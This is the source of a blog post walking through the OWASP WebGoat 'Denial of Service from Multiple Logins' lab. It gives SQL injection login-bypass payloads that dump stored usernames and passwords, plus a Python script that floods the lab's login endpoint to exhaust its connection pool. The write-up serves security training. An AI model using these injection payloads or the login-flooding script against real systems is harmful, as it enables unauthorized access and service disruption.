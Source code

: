 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Denial of Service"
subtitle: "Denial of Service from Multiple Logins"
date:   2017-01-31 08:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Denial of Service from Multiple Logins
Instructions:

- This site allows a user to login multiple times. This site has a database connection pool that allows 2 connections. You must obtain a list of valid users and create a total of 3 logins. 

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_16/dos-start-form.jpg">

Alright so for this DoS attack we need to have the creds of at least 3 users. Let's use some SQL injection to pull all of the users in the db:

```
username: user' or '1' = '1
password: password' or '1' = '1
```

This concatenates to the following SQL statement:

```
SELECT * FROM user_system_data WHERE user_name = 'user' and password = 'password' or '1' = '1'
```

And when we input that to the login prompt:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_16/injection-results.jpg">

Bingo! Now let's see what a login request looks like so we can create a few for our DoS attack:

```
Username=jsnow&Password=passwd1&SUBMIT=Login
```

Alright. Now let's break out some Python again and get cracking on our DoS script:

{% highlight python %}
import requests


def main():
	max_logins = 3
	accounts = {
		"jsnow":"passwd1",
		"jdoe":"passwd2",
		"jplane":"passwd3",
		"jeff":"jeff",
		"dave":"dave"
	}
	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="780D6C32240516F052FDE3EFACD410F5",
	acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")
	users_logged_in = 0
	x = 0
	while users_logged_in < max_logins:
		x += 1
		x = x % len(accounts)
		username = accounts.keys()[x]
		password = accounts[accounts.keys()[x]]
		params={
			"Username":username, 
			"Password":password,
			"SUBMIT":"Login"
		}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=63&menu=1200", 
			params=params, headers=headers, cookies = cookies)
		if r.status_code == 200:
			if "login failed" not in r.text.lower():
				users_logged_in += 1
				print ("[+] Accounts logged in: {}".format(users_logged_in))
			else:
				print ("[-] Login for {}:{} failed".format(username, password))
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=")
	print ("[*] DoS Attack Complete!")
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=")
	
main()
{% endhighlight %}

The basic function of this script is to send login requests for up to ```max_logins``` number of users. It loops around the credentials in ```accounts``` (which could cause a hang if we had < ```max_logins``` of valid creds), and creates requests for these users on the login URL. Let's see what happens when we run it:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_16/dos-results.jpg">

Well, looks like the dave and jeff's accounts weren't accepted for the login, but luckily we found 3 working users. Let's see if we succeeded in DoS:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-31-webgoat_part_16/dos-success.jpg">

Nice! Although if 3 users logging in simultaneously overloads your login servers, you might need to rework some of your core infrastructure.